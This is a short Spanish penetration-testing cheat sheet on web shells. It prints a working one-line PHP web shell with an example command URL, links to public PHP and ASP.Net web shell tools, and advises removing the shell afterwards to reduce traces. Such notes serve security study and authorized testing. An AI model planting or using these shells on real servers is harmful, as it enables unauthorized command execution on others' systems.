 ```yaml
---
aliases:
tags:
  - type/cheatsheet
primary categories:
  - "[[Penetration Test]]"
secondary categories:
  - "[[Pre-Exploitation]]"
tertiary categories:
  - "[[Payloads]]"
type: CheatSheet
linked:
---
```

# Web Shells

***

## Cheatsheet

| **Acción**                                                                                         | **Descripción**                                                                                                       |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| `<?php echo system($_GET["cmd"]); ?>`<br><br>Uso: <br>`http://target.com/shell.php?cmd=id`<br><br> | Webshell PHP simple.<br><br>Sin ninguna protección por contraseña.                                                    |
| <br><br>https://github.com/0xDLB/Protected-PHP-Web-Shell                                           | Webshell PHP con protección por contraseña. <br>La contraseña está definida en la línea 11.<br><br>                   |
| <br>https://github.com/samratashok/nishang/tree/master/Antak-WebShell                              | Antak es una webshell para ASP.Net en objetivos Windows. <br><br>Usuario y contraseña están definidos en la línea 14. |

---

## Overview

Un **web shell** es una interfaz accesible desde el navegador que nos permite **ejecutar comandos** en el sistema operativo del servidor web.

**Algunas consideraciones importantes:**

- Algunas aplicaciones web **eliminan archivos automáticamente** después de un período determinado.
- Los **web shells** son **menos potentes** que las reverse shells.
- Es más probable que **dejen evidencia** del ataque.
- Si quedan sin protección, un web shell podría ser **accedido y usado por otra persona**.

Después de conseguir **RCE**, puede ser recomendable actualizar a [[Bind Shells]] para conseguir mayor capacidad y luego **eliminar el web shell** para reducir rastros.